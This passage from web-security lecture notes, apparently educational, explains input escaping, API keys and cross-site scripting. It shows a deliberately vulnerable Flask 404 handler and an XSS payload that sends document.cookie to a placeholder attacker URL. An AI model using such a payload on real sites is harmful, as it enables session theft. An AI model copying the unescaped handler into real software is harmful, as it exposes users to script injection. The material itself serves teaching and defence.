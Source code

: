- To avoid this, any input that is passed, in one way or another, into a command should be have potentially dangerous characters, like `'`, ‘escaped’. Often times, this input ‘sanitation’ is done automatically when using libraries such as SQLAlchemy.


## APIs

- When designing APIs, it is often important to ensure that certain users only have access to certain information. To keep track of users, API keys, simply long strings, are generated and associated with every user. Every time an API request is made, an API key must be passed with it.
- API keys allow for ‘route authentication’, or verifying that a user has permission to access a certain route. They also can be used for ‘rate limiting’, or ensuring that a user can only make so many requests.


## JavaScript

  - While HTML and CSS can be abused, they only affect how the browser renders a web page. With JavaScript arises the possibility for malicious code to be run inside the browser.


### Cross-Site Scripting

- Similar to how SQL injections abused the possibilities for users to modify the code being run on a database, cross-site scripting consists of running some arbitrary JavaScript code inside a browser. Here’s is an example of a Flask application that is vulnerable to such an attack:

    ```py
    from flask import Flask, request

    app = Flask(__name__)

    @app.route("/")
    def index():
        return "Hello, world!"

    @app.errorhandler(404)
    def page_not_found(e):
        return "Not Found: " + request.path    
    ```

- `page_not_found` will be run whenever the server returns a ‘404 Not Found’ response code, thanks to Flask’s built in error handler.
- `request.path` is the URL which the user tried to access, but was not found by the server.
- If, instead an incorrect path, the user entered some JavaScript code in the URL (for example, `/<script>alert('hi')</script>`), then that code will be rendered in the HTML and run.
- Lots of modern browsers such as Chrome have cross-site scripting ‘auditors’ built-in that will detect relatively simple cases, such as the previous example, and will not render the page. Nonetheless, there are cases which will get past such auditors, and not all browsers will have such features.
- More dangerous instancs of cross-site scripting can compromise passwords, credit card information, etc. Take the following script, for example:
    `/<script>document.write('<img src="hacker_url?cookie="+document.cookie+">")</script>`

- `document.write` adds new content to the HTML source.
- The added content is an image, with a URL to some unknown site, but it is also being passed as a cookie `document.cookie`, which represents the cookie for the current page. If a hacker is monitoring the traffic to web server, then this request, which contains the cookie being used for the current site, is compromised. The hacker can then use that cookie to log in as that user on the current site. These are the sorts of vulnerabilites that cross-site scripting auditors try to protect against.
- One defense against cross-site scripting, like SQL injection is to ensure that any potentially dangerous characters are escaped. Frameworks like Flask and Django can often be configured to do this automatically.
- Cross-site scripting does not require JavaScript to passed through the URL. Here’s an example that abuses a database:
